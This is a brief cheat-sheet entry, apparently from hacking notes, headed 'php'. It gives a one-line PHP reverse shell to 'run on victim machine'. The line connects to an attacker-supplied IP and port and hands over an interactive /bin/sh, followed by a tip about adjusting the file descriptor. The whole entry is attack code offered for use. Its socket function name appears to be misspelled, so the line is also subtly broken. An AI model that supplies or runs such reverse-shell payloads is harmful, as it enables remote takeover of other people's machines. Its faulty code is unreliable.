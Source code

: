 # php
## reverse shell one line (run on victim machine)
```
php -r '$socket=fsocket("$MY_IP",$MY_PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If there are errors try incrementing the 3 to a higher value